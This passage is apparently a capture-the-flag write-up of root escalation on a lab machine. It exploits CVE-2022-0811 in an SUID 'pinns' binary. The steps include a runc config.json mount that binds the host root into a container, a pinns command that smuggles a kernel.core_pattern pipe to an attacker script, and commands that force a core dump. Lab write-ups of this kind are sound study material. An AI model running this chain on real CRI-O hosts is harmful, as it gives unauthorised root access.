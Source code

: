 When running linpeas.sh, we can find this SUID binary called `pinns`.&#x20;

<figure><img src="../../../.gitbook/assets/image (89) (1) (1).png" alt=""><figcaption></figcaption></figure>

Again. researching on more recent vulnerabilities led me to this:&#x20;

{% embed url="https://sysdig.com/blog/cve-2022-0811-cri-o/" %}

In short, pinns is basically used to set kernel options in a pod. In this machine, the version of pinns is vulnerable because it does not sanitise the kernel parameters, allowing for RCE. Since this is an SUID binary, it allows us to execute commands as root.

To exploit this, we would need to have a container of which we are root, and cause a core dump. This woudl trigger pinns, which is configured to execute a script of our choosing to give us a root shell.

### Exploitation

In a new directory for the machine, we can include a simple script that would make `/bin/bash` a SUID binary to escalate with. We also need two SSH sessions as ethan.

Then, we can execute these commands:

<figure><img src="../../../.gitbook/assets/image (116) (1) (1).png" alt=""><figcaption></figcaption></figure>

This would spawn a container for us to use for the core dump, and we would need to append something to the **mount** section of config.json: (basically setting the configuration of the container we generate with runc)

<pre><code>{
<strong>   "type": "bind",
</strong>   "source": "/",
   "destination": "/",
   "options": [
           "rbind",
           "rw",
           "rprivate"
   ]
}
</code></pre>

Then, we can run our container and spawn in as root for it.

<figure><img src="../../../.gitbook/assets/image (136) (1).png" alt=""><figcaption></figcaption></figure>

We can configure our container to execute our malicious script using pinns, and then configure the container such that we get a core dump.

```bash
pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/test/bar.sh #' --ipc --net --uts --cgroup

# in container
ulimit -s unlimited
tail -f /dev/null &
ps # check for tail PID
bash -i
kill -SIGSEGV <PID_for_tail>
```
